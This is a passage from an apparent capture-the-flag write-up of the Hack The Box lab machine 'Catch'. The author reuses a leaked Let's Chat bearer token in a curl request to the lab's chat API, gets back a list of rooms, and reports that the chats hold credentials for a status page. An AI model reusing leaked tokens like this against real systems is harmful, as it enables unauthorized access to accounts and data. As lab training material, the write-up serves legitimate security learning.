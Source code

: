 ### Leaking credentials from Let's Chat

I tried both the Slack and Gitea tokens but looks like they are not valid. Luckily, the Let's Chat token worked! And now we can access the app API:

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X 'GET' \
  'http://gitea.catch.htb:5000/rooms' \
  -H 'accept: application/json' -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq
[
  {
    "id": "61b86b28d984e2451036eb17",
    "slug": "status",
    "name": "Status",
    "description": "Cachet Updates and Maintenance",
    "lastActive": "2021-12-14T10:34:20.749Z",
    "created": "2021-12-14T10:00:08.384Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b8708efe190b466d476bfb",
    "slug": "android_dev",
    "name": "Android Development",
    "description": "Android App Updates, Issues & More",
    "lastActive": "2021-12-14T10:24:21.145Z",
    "created": "2021-12-14T10:23:10.474Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  },
  {
    "id": "61b86b3fd984e2451036eb18",
    "slug": "employees",
    "name": "Employees",
    "description": "New Joinees, Org updates",
    "lastActive": "2021-12-14T10:18:04.710Z",
    "created": "2021-12-14T10:00:31.043Z",
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  }
]
```

After inspecting the different chats I found credentials for the Status page!
